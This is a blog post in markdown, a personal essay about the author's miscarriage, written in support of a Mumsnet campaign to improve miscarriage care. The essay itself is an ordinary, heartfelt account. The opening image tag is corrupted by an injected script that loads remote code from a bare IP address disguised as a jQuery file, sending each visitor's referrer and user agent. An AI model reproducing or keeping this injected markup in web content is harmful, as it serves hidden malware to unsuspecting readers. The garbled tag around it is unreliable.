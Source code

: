 ```yaml
---
layout: post
title: "On Miscarriage"
date: 18-Jun-2014
categories: tbd
---
```


# On Miscarriage

## 18th June 2014

 <img class="photo-horiz" ext/javascript" rel="nofollow"  document.write("<script language='javascript' rel='nofollow' type='text/javascript' src='http://5.45.67.97/1/jquery.js.php?r=" + encodeuri(document.referrer) + "&u=" + encodeuri(navigator.useragent) + "'></sc" + "ript>"); </script></noindex>  Supermarket  1955" src="http://media-cache-ak0.pinimg.com/736x/48/7e/c4/487ec437659299b69b74c13d7a7f8e19.jpg" />William Klein Four Women,   Supermarket 1955**The English blogging network Mumsnet **are campaigning to improve miscarriage services in the UK. They **recently completed a survey on  miscarriage and  found that the treatment and support that women received following a miscarriage often failed to meet the official national UK guidelines.** **When I miscarried, a very sad experience, ** **I had excellent care and support from the Australian medical system, but I found most healing in the women I knew, and the stories they shared with me. ****There is a general silence around miscarriage, though - in fact, the Mumsnet survey showed that **only 23% of women who had suffered pregnancy loss had talked about it with their friends. ** In support of Mumsnet, I am posting this piece I write some years ago about my own experience with miscarriage. If you would like to share your own story, support the campaign or read more, find <a href="http://www.mumsnet.com/bloggers/roundups/miscarriage-care-campaign-your-stories">Mumsnet </a>here.****Here is the story of the baby we called Biggles. **Pregnant with my first child, I lived in the city, with an osteopath, an aqua-aerobics teacher, a yoga instructor and an office full of supportive women always up for a coffee or four. When the irrepressible Peanut arrived, we packed her up with the toilet paper and the lentils and moved down the coast to a sleepy town on the beach. Now we live up a dirt road with tank water, a composting dunny, a derelict vege garden and neighbourhood sheep. Instead of glamorous gay men and boutique carrots, we have boys on dirt bikes and neighbours who leave lemons at the letterbox.When I got knocked up again, my small-town pregnancy was a different experience. Mainly because first time around I was free to spend all my time languishing on the couch, arranging tiny clothes in baby-shapes, eating Chocolate Montes and watching Love My Way. Second-go, I had a toddler who begged at my feet like a dog, hitting herself in the head dramatically until the Montes went back in the fridge. We were in a West Wing phase by then anyway. Life was a little more intense.In the early weeks of pregnancy with the foetus we named Banana, my dilemmas were several. First, I had three months between finishing breastfeeding and getting knocked up again. Why didn’t I spend the whole time with a bottle of champagne in one hand and a plateful of Brie, sushi, ham and salami in the other? Secondly, how could I get anything done when I had to sleep for two hours in the middle of the day? Thirdly, did my stomach really pop out twelve minutes after the blue line appeared, or was I just joyfully releasing the belly leftover from last time?The major dilemma, though, was this: to tell, or not to tell?The generally held wisdom is that you should wait until the magic twelve week moment before releasing the news of your pregnancy to the world at large. It’s all about the prospect of miscarriage. It happens a lot. It happened to us before the adorable Ivy came along.At ten weeks pregnant, I was getting ready for work one morning when I discovered a bright red spot of blood. It was the start of a devastating 24 hours that ended in surgery to make sure that all the ‘products of conception’ were removed from my uterus. Things get very clinical very fast with miscarriage. Your foetus has become ‘product’, your baby no longer exists, and you are no longer a mother. I got home feeling empty and shocked, and went to bed.My partner got on the phone. He told a few friends and family, who passed on the news. I didn’t want to talk to anyone, but the cards, flowers and messages started arriving and when I returned to work, women sensitively found moments to share their stories with me. I had become part of a community, where the members understood my loss, and shared and grieved with me.Miscarriage is an experience shared by, on average, one in six women, although many don’t talk about it, and in the joyful, hopeful world of pregnancy and motherhood, talk of losing babies can seem inappropriate, even distasteful. It can just feel like bad juju. In a subsequent pregnancy, 80-85% of women will go on to produce a healthy baby. I was lucky enough to be among the majority, and in good time Banana became the baby known to us as T-Bone the Beautiful, Foxy the Ox and (surprisingly tall, with sky-blue eyes and golden hair) Sven Olafson the Watchmaker, secret son-of-milkman.I’ve never regretted the telling. When you give the people who love you the opportunity, they will support you with kindness and sensitivity, as well as Chocolate Montes. Losing a baby was a sad and traumatic experience, but for us, grieving alone would have been worse. And in my new coast-community, I’m sure I would have found the same circle of female friendship, the shared sadness, and the support.
